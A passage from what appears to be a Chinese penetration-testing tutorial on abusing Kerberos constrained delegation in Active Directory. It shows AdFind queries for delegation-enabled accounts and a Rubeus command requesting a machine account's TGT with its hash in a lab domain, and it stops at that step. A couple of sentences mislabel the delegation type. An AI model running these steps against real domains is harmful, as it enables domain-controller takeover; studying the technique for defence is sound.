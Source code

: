 从攻击的角度来看，如果 Service 1 受到威胁，由于 Service 1 配置了到 Service 2 的约束性委派，则攻击者可以利用 Service 1 代表域管理员用户访问 Service 2。如果 Service 2 位于域控制器，例如域控的 CIFS、LDAP 等服务，那么就可以直接获取域控制器权限。

值得注意的是，由于非约束性委派的整个过程中，Service 1 无法获取用户的 TGT，因此需要通过构造 S4U 请求，以任意用户的权限申请访问某服务的 ST。但是在申请 ST 之前，机器账户或服务账户必须先申请到自己的 TGT，这就意味着需要获取机器账户或服务账户的哈希值或明文密码。

### Discovery

首先，在域控制器上为域内主机 WIN10-CLIENT1 配置约束性委派，配置其对域控制器 DC01 的 LDAP 服务进行委派，如下图所示。需要注意的是，只有拥有 SeEnableDelegationPrivilege 特权的用户才可以为其他主机账户或服务账户配置非约束性委派，而该特权默认情况下赋予管理员用户。

![](/assets/posts/2022-03-12-domain-delegation-attack/56Pmh8fnabJdRsA.png)

配置了约束性委派的账户的 `userAccountControl` 属性会设置 `TRUSTED_TO_AUTH_FOR_DELEGATION` 标志位，并且账户的 `msDS-AllowedToDelegateTo` 属性会被设置为对哪些服务进行委派。可以在域内主机上通过 AdFind 进行查询，相关命令如下。

```console
# 查询域中配置约束委派的机器账户
C:\Users\Marcus\Desktop> AdFind.exe -b "dc=pentest,dc=com" -f "(&(samAccountType=805306369)(msds-allowedtodelegateto=*))" msds-allowedtodelegateto
# 查询域中配置约束委派的服务账户
C:\Users\Marcus\Desktop> AdFind.exe -b "dc=pentest,dc=com" -f "(&(samAccountType=805306368)(msds-allowedtodelegateto=*))" msds-allowedtodelegateto
```

![](/assets/posts/2022-03-12-domain-delegation-attack/Xw2Qlq94bOYByKA.png)

从查询结果中可以看到，此时域成员主机 WIN10-CLIENT1 配置了约束性委派，并对域控制器 DC01 的 LDAP 服务进行委派。假设此时攻击者获取了普通用户 Marcus 的权限，并以 Marcus 用户登录了 WIN10-CLIENT1，那么攻击者可以通过约束性委派获取域控制器权限。

### Constrained Delegation Attack

我们通过以下环境来演示约束委派攻击的过程：

```
- 域：pentest.com
- 域控制器
  - 主机名：DC01
  - IP 地址：172.26.10.11
- 域成员主机
  - 主机名：WIN10-CLIENT1
  - IP 地址：172.26.10.21
- 域管理员用户：Administrator
- 普通用户：Marcus
```

（1）首先，通过 Marcus 用户登录域成员主机 WIN10-CLIENT1，尝试通过 DCSync 导出域内用户哈希，结果失败。

（2）然后，通过 Rubeus 申请机器账户 WIN10-CLIENT1 的 TGT，相关命令如下。执行后，将得到 Base64 加密后的 TGT 票证，如下图所示。

```console
C:\Users\Marcus\Desktop> Rubeus.exe asktgt /user:WIN10-CLIENT1$ /rc4:5dd934ddeff076dd686656a2a7d6081b /domain:pentest.com /dc:DC01.pentest.com /nowrap

# /user 指定要申请TGT的账户名
# /rc4 指定机器账户WIN10-CLIENT1$的哈希值
# /domain 指定域名
# /dc 指定域控制器
```
